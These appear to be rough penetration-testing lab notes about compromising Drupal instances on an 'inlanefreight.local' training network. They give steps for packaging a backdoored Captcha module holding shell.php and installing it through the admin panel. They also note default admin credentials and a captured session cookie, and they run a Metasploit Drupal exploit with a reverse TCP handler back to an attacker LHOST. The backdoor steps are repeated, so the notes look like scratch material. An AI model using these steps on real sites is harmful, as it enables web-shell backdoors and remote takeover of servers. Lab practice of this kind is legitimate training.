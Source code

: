 vi .htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

On Drupal with administrative access :
Manage
Extend
+ Install new module
Browse to the backdoored Captcha archive
Install

Fatal error: Cannot use result of built-in function in write context in /var/www/drupal-qa.inlanefreight.local/modules/system/system.tar.inc on line 595



### http://drupal.inlanefreight.local/

admin
admin

SESSd16c26469c92a0d76aee595fed22fe6c=6awXwH5xDh5pEwkDeprGwc492TgPeCLQfGjIuhq7QmI

use exploit/php/webapps/44557
set rhosts 10.129.189.125
set VHOST drupal.inlanefreight.local
set drupal_session SESSd16c26469c92a0d76aee595fed22fe6c=6awXwH5xDh5pEwkDeprGwc492TgPeCLQfGjIuhq7QmI
set DRUPAL_NODE 1
set LHOST 10.10.15.142
show options 
exploit

set VHOST drupal-qa.inlanefreight.local
set drupal_session SESS7480629f2a60f8ea10a4824d0c05b9ed=q9DCwaEKp8aoXyx6eUpUdWQL6MIeJr7QVEGcmdkFrKY;

[*] Started reverse TCP handler on 10.10.15.142:4444 
[*] Token Form -> DBs3g6EeGKCvz4cIs33SM0Z81LGIwavkVHAyS6_nMeM
[*] Token Form_build_id -> form-oGBR_Ec9LDR4EW5RSYxYG2T_u-IdBYnX_GCcH9PFHxE
[*] Exploit completed, but no session was created.


mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

On Drupal with administrative access :
Manage
Extend
+ Install new module
Browse to the backdoored Captcha archive
Install
